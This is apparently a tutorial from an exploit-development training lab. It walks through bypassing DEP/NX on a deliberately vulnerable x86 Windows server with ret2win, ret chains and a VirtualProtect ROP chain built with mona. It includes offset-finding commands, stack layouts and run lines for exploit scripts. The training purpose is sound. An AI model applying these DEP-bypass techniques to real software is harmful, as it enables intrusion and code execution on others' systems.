

# Tutorial — dobetter_rop_x86 (DEP on)

## Why stack shellcode dies here

With **NX/DEP**, pages marked non-executable refuse to run as code. Lab 01’s
`JMP ESP` → stack payload path ends in:

```text
Access violation when executing [stack_address]
```

You still control **EIP**. You just cannot point it at the stack until something
makes that memory executable (or you only jump to **existing** executable pages).



## Part A — ret2win (required)

### 1. Crash and measure offset

Same methodology as lab 01 (port **31341**):

```bash
export TARGET_PORT=31341
python3 exploits/02_crash.py
python3 exploits/03_pattern.py
# mona findmsp / pattern_offset
OFFSET=<n> python3 exploits/04_eip_control.py
```

### 2. Prove DEP (optional but educational)

Send JMP ESP + `0xCC` stack bytes (as in lab 01). Under WinDBG you should see
execution fault **on the stack**, not a clean INT3 handler in your sled.

### 3. Call `win()` instead

```text
u dobetter_rop_x86!win
# or use the startup hint / mona find
```

Payload:

```text
[ padding to EIP ][ address of win ]
```

```bash
OFFSET=<n> WIN=0x0040151c python3 exploits/06_ret2win.py
# or appendix defaults for MinGW 13:
python3 exploits/09_ret2win_pinned_mingw13.py
```

Server console should print:

```text
[WIN] ROP reached win() — code reuse works with DEP/NX on.
```

That is a one-gadget ROP chain: a single return into existing code.

### 4. Two-gadget chain (stretch)

Use a `ret` gadget as padding or chain:

```text
[pad][ret][ret][win]
```

Confirms you can **stack multiple return addresses**.

```bash
OFFSET=<n> WIN=0x... RET=0x... python3 exploits/07_ret_chain.py
```

## Part B — VirtualProtect + shellcode (advanced)

Goal: mark the shellcode page `PAGE_EXECUTE_READWRITE` (0x40), then jump to it.

### Windows x86 `VirtualProtect` (stdcall)

```c
BOOL VirtualProtect(
  LPVOID lpAddress,   // [esp+4]
  SIZE_T dwSize,      // [esp+8]
  DWORD  flNewProtect,// [esp+12]
  PDWORD lpflOldProtect // [esp+16]
);
```

After the `CALL`/`RET` into `VirtualProtect`, the stack must look like:

```text
ESP ->  return address   (where VP returns — often a JMP ESP / push esp;ret)
        lpAddress
        dwSize
        flNewProtect     (0x00000040)
        lpflOldProtect   (writable pointer)
```

### mona workflow

```text
!mona rop -m dobetter_rop_x86 -cpb "\x00\x0a"
!mona ropfunc
!mona modules
```

Use mona’s suggested chain as a **starting point**; fix addresses for **your**
build. The binary imports `VirtualProtect` so mona can see it.

### Skeleton

```bash
# Checklist template:
OFFSET=<n> python3 exploits/08_vp_skeleton.py
# Layout helper for pinned MinGW symbols (needs SHELL_ADDR from WinDBG):
SHELL_ADDR=0x.... BUILD_ROP=1 python3 exploits/10_vp_layout_notes.py
```

See [../shared/mingw-offset-appendix.md](../shared/mingw-offset-appendix.md) for
`VP_STUB` / `JMP_ESP` example VAs.

### Debugger tips

- Break on `kernel32!VirtualProtect` / `VirtualProtectStub`
- After success, `!vprot <shellcode_addr>` should show execute permission
- Then step into the shellcode

## Checkpoint

- [ ] Explain NX vs “I control EIP”
- [ ] ret2win reliably prints `[WIN]`
- [ ] Optional: two-`ret` chain
- [ ] Optional: mona ROP + VP outline written in your notes

## Next

- [egghunter tutorial](../04-x86-seh-bof/TUTORIAL_EGGHUNTER.md) (space-constrained payloads)
- [curriculum/07-next-level.md](../../curriculum/07-next-level.md) (courses, full ASLR)
